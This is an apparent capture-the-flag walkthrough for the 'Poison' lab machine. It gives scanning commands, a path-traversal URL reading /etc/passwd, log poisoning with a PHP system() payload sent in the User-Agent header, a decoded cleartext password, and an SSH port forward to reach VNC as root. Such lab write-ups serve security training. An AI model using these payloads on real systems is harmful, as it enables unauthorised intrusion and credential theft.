


# Poison

# Scanning

```
furious 10.10.10.84

nmap -sC -sV -p80,22 -n -Pn 10.10.10.84 -oN targeted
```



#80

view-source:http://10.10.10.84/browse.php?file=/../../../../../../../../etc/passwd

view-source:http://10.10.10.84/browse.php?file=/../../../../../../../../var/log/httpd-access.log

```bash
curl -A "<?php system(\$_REQUEST['cmd']);?>" 10.10.10.84

10.10.10.84/browse.php?file=/../../../../../../../../var/log/httpd-access.log&cmd=ls

http://10.10.10.84/browse.php?file=/../../../../../../../../var/log/httpd-access.log&cmd=cat%20pwdbackup.txt
```



```bash
#!/bin/bash

cad='Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVUbGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBSbVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVWM040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRsWmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYyeG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01GWkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYwMXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVaT1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5kWFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZkWGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZTVm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZzWkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBWVmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpOUkd4RVdub3dPVU5uUFQwSwo='

for i in $(seq 1 13); do
   cad=$(echo "$cad"| base64 -d | tr -d "\n")
   echo $cad
   echo "#########"
done
```
###	output
```bash
Vm0wd2QyUXlVWGxXYTFwUFZsZFNjRlZ0TVZOWFJsbDNXa2M1VjJKR2JETlhhMUpUVmpGYWMySkVUbGhoTVVwVVZtcEdTMlJIVmtkWApiRnBPWVd0RmVGWnRjRXRUTVU1SVZtdFdVZ3BpVlZwWVZtMTRjMDB4WkZkYVJGSlVUV3N4TkZkcmFGZGhVWEJUWWxaS1VGZFhNVFJTCk1EQjRWMjVTYTFKc2NITlZiWGh6VGxaYVNHUklUbWhWV0VKVVdXeGFTMlF4V25Sa1IwWmFDbFpzV2xoWGExcHJXVlpLUjFOdFJsZGgKYTBZMFZHdGFZVk5GTlZkYVIyaFdWMFZLVlZkWGVHRlRNVnBYVjJ0a1ZtRXpVbkJEYXpGeVlrUlNWMDFxVmt4V01uTjNaVmRHUjFWcwpjR2tLVW01Q2IxZHNaRFJXTWxKR1RsWmtZVkl5YUZOV01GWkxWbFprV0dWSGRHbE5iRXA2VjJ0YWExWnRSWHBWYms1RVlsVndXRll5CmRHOVdNREZ4Vm10NFdGWnNjRXhWYWtaUFl6Rldjd3BXYkdOTFdXdG9RbVZzV25SalJXUldUVlpzTkZZeU5VOVpWa2w1WVVaa1YwMUcKV2t4V2JGcGhaRVV4VlZGdGRFNWhNbmN3VmpKMGIxUXhiRmRVYTJoV1lrVTFSVmxzVmxwTmJGcDBDbVZIT1ZkaVZYQkpXVlZvZDFZdwpNWEZTYkdoaFVsZFNXRlZxUms5amQzQmhVbTFPVEZkWGVGWmtNbEY0VjJ0V1UySkhVbFpVVjNSM1pXeFdXR1ZHWkZWaVJYQmFWa2QwCk5GSkdjRFlLVFVSc1JGcDZNRGxEWnowOUNnPT0K
#########
Vm0wd2QyUXlWa1pPVldScFVtMVNXRll3Wkc5V2JGbDNXa1JTVjFac2JETlhhMUpUVmpGS2RHVkdXbFpOYWtFeFZtcEtTMU5IVmtWUgpiVVpYVm14c00xZFdaRFJUTWsxNFdraFdhUXBTYlZKUFdXMTRSMDB4V25Sa1JscHNVbXhzTlZaSGRITmhVWEJUWWxaS2QxWnRkR0ZaClZsWlhXa1prWVZKR1NtRldha0Y0VGtaYVNFNVdaR2hWV0VKVVdXeGFTMVpXV2tkVmEzUnBDazFyYkRSV01qVkxWMnN3ZVdGR1VscGkKUm5Cb1dsZDRWMlJGTlZkYVIyaFNWMFZLVlZkWGVHdGlNbEp6V2taa1ZtRXpVbk5EYlVwWFYydG9WMDFxVmt4WFZscExVakZPYzFWcwpWbGNLWWtoQmVsWnRjRWRWTVZsNFYyNU9ZVkl5YUZkV01GWkxWbFphZEUxVVFtdE5hMncwVjJ0b1QxbFdUa2hWYkU1RVlsVlpNbFp0CmVHOVdiVXBJWVVod1YwMXFSbGhhUldSWFVqRk9jd3BhUm1OTFdXeFZkMlF4V2tWU2JHUlZUV3R3ZWxWWGVGZFViRXBaVkd0NFJGcDYKTURsRFp6MDlDZz09Cg==
#########
Vm0wd2QyVkZOVWRpUm1SWFYwZG9WbFl3WkRSV1ZsbDNXa1JTVjFKdGVGWlZNakExVmpKS1NHVkVRbUZXVmxsM1dWZDRTMk14WkhWaQpSbVJPWW14R00xWnRkRlpsUmxsNVZHdHNhUXBTYlZKd1ZtdGFZVlZXWkZkYVJGSmFWakF4TkZaSE5WZGhVWEJUWWxaS1ZWWkdVa3RpCk1rbDRWMjVLV2sweWFGUlpiRnBoWld4V2RFNVdaR2hSV0VKVVdXeGtiMlJzWkZkVmEzUnNDbUpXV2toV01qVkxXVlpLUjFOc1VsVlcKYkhBelZtcEdVMVl4V25OYVIyaFdWMFZLVlZadE1UQmtNa2w0V2toT1lWTkhVbE5EYlVZMlZteG9WbUpIYUhwV01qRlhaRWRXUjFOcwpaRmNLWWxVd2QxWkVSbGRVTWtwelVXeFdUbEpZVGt4RFp6MDlDZz09Cg==
#########
Vm0wd2VFNUdiRmRXV0doVlYwZDRWVll3WkRSV1JteFZVMjA1VjJKSGVEQmFWVll3WVd4S2MxZHViRmROYmxGM1ZtdFZlRll5VGtsaQpSbVJwVmtaYVVWZFdaRFJaVjAxNFZHNVdhUXBTYlZKVVZGUktiMkl4V25KWk0yaFRZbFphZWxWdE5WZGhRWEJUWWxkb2RsZFdVa3RsCmJWWkhWMjVLWVZKR1NsUlVWbHAzVmpGU1YxWnNaR2hWV0VKVVZtMTBkMkl4WkhOYVNHUlNDbUY2VmxoVmJHaHpWMjFXZEdWR1NsZFcKYlUwd1ZERldUMkpzUWxWTlJYTkxDZz09Cg==
#########
Vm0weE5GbFdWWGhVV0d4VVYwZDRWRmxVU205V2JHeDBaVVYwYWxKc1dubFdNblF3VmtVeFYyTkliRmRpVkZaUVdWZDRZV014VG5WaQpSbVJUVFRKb2IxWnJZM2hTYlZaelVtNVdhQXBTYldodldWUktlbVZHV25KYVJGSlRUVlp3VjFSV1ZsZGhVWEJUVm10d2IxZHNaSGRSCmF6VlhVbGhzV21WdGVGSldWbU0wVDFWT2JsQlVNRXNLCg==
#########
Vm0xNFlWVXhUWGxUV0d4VFlUSm9WbGx0ZUV0alJsWnlWMnQwVkUxV2NIbFdiVFZQWVd4YWMxTnViRmRTTTJob1ZrY3hSbVZzUm5WaApSbWhvWVRKemVGWnJaRFJTTVZwV1RWVldhUXBTVmtwb1dsZHdRazVXUlhsWmVteFJWVmM0T1VOblBUMEsK
#########
Vm14YVUxTXlTWGxTYTJoVllteEtjRlZyV2t0VE1WcHlWbTVPYWxac1NubFdSM2hoVkcxRmVsRnVhRmhoYTJzeFZrZDRSMVpWTVVWaQpSVkpoWldwQk5WRXlZemxRVVc4OUNnPT0K
#########
VmxaU1MySXlSa2hVYmxKcFVrWktTMVpyVm5OalZsSnlWR3hhVG1FelFuaFhha2sxVkd4R1ZVMUViRVJhZWpBNVEyYzlQUW89Cg==
#########
VlZSS2IyRkhUblJpUkZKS1ZrVnNjVlJyVGxaTmEzQnhXakk1VGxGVU1EbERaejA5Q2c9PQo=
#########
VVRKb2FHTnRiRFJKVkVscVRrTlZNa3BxWjI5TlFUMDlDZz09Cg==
#########
UTJoaGNtbDRJVElqTkNVMkpqZ29NQT09Cg==
#########
Q2hhcml4ITIjNCU2JjgoMA==
#########
Charix!2#4%6&8(0
#########
```
# 22

ssh charix@10.10.10.84

cat /home/charix/user.txt

```
charix@Poison:~ % netstat -a
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0     44 10.10.10.84.ssh        10.10.14.14.57228      ESTABLISHED
tcp4       0      0 localhost.smtp         *.*                    LISTEN
tcp4       0      0 *.http                 *.*                    LISTEN
tcp6       0      0 *.http                 *.*                    LISTEN
tcp4       0      0 *.ssh                  *.*                    LISTEN
tcp6       0      0 *.ssh                  *.*                    LISTEN
tcp4       0      0 localhost.5801         *.*                    LISTEN
tcp4       0      0 localhost.5901         *.*                    LISTEN
udp4       0      0 *.syslog               *.*                    
udp6       0      0 *.syslog               *.*                    
Active UNIX domain sockets
Address          Type   Recv-Q Send-Q            Inode             Conn             Refs          Nextref Addr
fffff80003b62e10 stream      0      0                0 fffff80003b62b40                0                0
fffff80003b62b40 stream      0      0                0 fffff80003b62e10                0                0
fffff80003b632d0 stream      0      0                0 fffff80003b633c0                0                0 /tmp/.X11-unix/X1
fffff80003b633c0 stream      0      0                0 fffff80003b632d0                0                0
fffff80003b635a0 stream      0      0                0 fffff80003b634b0                0                0 /tmp/.X11-unix/X1
fffff80003b634b0 stream      0      0                0 fffff80003b635a0                0                0
fffff80003b63690 stream      0      0 fffff80003b33588                0                0                0 /tmp/.X11-unix/X1
fffff80003b63b40 stream      0      0 fffff80003ac0938                0                0                0 /var/run/devd.pipe
fffff80003b630f0 dgram       0      0                0 fffff80003b63960                0                0
fffff80003b631e0 dgram       0      0                0 fffff80003b63870                0 fffff80003b63780
fffff80003b63780 dgram       0      0                0 fffff80003b63870                0                0
fffff80003b63870 dgram       0      0 fffff80003c54000                0 fffff80003b631e0                0 /var/run/logpriv
fffff80003b63960 dgram       0      0 fffff80003c541d8                0 fffff80003b630f0                0 /var/run/log
fffff80003b63a50 seqpac      0      0 fffff80003ac0760                0                0                0 /var/run/devd.seqpacket.pipe
```

## local port forwarding
ssh charix@10.10.10.84 -L 7777:localhost:5901

nmap -sC -sV  -p 7777 localhost

##vncviewer
vncviewer localhost:7777 -passwd secret

cat /root/root.txt
